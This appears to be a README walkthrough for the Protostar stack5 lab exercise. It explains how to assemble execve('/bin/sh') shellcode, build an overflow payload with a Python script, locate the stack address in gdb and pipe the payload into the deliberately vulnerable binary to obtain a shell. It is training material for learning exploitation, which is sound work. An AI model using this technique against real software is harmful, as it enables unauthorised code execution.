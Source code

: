 # protostar-stack-5


In this challenge, the execution of arbitrary code is required. Such code, written in machine language with hexadecimal encoding is injected via input.  
A common choice is to obtain the execution of a shell.  A machine code that executes a shell is called a shellcode.

The shellcode we want to execute is the following:

execve("/bin/sh");
exit(0);


The shellcode.s file contains the shellcode in assembly. Compile shellcode.s to obtain the shellcode.o object file with the following command: gcc –m32 –c shellcode.s –o shellcode.o

Disassemble shellcode.o to get hex-encoded instructions: objdump --disassemble shellcode.o 

payload.py is used to generate the input to pass to stack5.

1. Transfer the payload.py and shellcode.s to the virtual machine
2. Print the output of the script to a file with the following command: python stack5-payload.py > payload
3. Run gdb -q /opt/protostar/bin/stack5
  ⁃ If present, we delete global variables LINES and COLUMNS:
      - unset env LINES
      - unset env COLUMNS
    
  ⁃ write: disassemble main
  
  ⁃ Set the breakpoint just before the leave instruction: b * 'istruction_leave'
  
  ⁃ r < /tmp/payload
  
  ⁃ Print the contents of the pointer esp using the command x/a $esp
  
  ⁃ Edit the python script by inserting the obtained value (es. 0xbffffca0) and run it again to get back the correct payload with the right address
      - nano stack5-payload.py
      - edit script

  ⁃ exit from gbd: q
  
4. Execute python stack5-payload.py > payload
 
5. Write: (cat /tmp/payload; cat) | /opt/protostar/bin/stack5                          (*)

6. F I N I S H




(*)We use this command because otherwise the new shell would be closed immediately because it would find an EOF due to the fact that all the contents of STDIN have been consumed by the gets.
